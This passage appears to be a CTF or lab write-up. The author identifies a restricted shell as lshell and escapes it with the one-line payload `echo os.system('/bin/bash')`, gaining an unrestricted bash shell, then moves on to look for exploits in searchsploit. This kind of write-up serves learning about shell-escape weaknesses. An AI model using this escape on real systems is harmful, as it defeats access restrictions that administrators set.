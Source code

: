 `john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
`

`
john:~$ echo $SHELL
*** forbidden path -> "/bin/kshell"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
`
So let's go to see which shell implements the commands:
* ll
* lpath 

as they are not common commands.

We find out taht it is from:

`https://sourceforge.net/p/lshell/wiki/Home/`

I also tried randomly the command:

`sudo`

and I got back the below error:ß

```
john:~$ sudo
Traceback (most recent call last):
  File "/bin/kshell", line 27, in <module>
    lshell.main()
  File "/usr/lib/python2.5/site-packages/lshell.py", line 1219, in main
    cli.cmdloop()
```

So definitely this is the lshell...

Let's go to see if there are associated vulnerabilities for that...

So I googled:

`lshell how to bypass`

and I get two interesting links:

* https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/

I tried all of the suggestions but they did not really work.

So I try the second link:

* https://www.aldeid.com/wiki/Lshell

There there is not indication of a shell version so not sure it is useful but the suggested line is short so I give a try:

`echo os.system('/bin/bash')`

and actually it works... so I have full shell unrestricted capabilities... but I am not really satisfied, as not having a version of lshell to associate with the found vulnerability makes everything a bit too much heuristic, or well too much lucky that is not the case to rely on for a methodological approach...
Said that I go to searchsploit and I look for something related to lshell there:
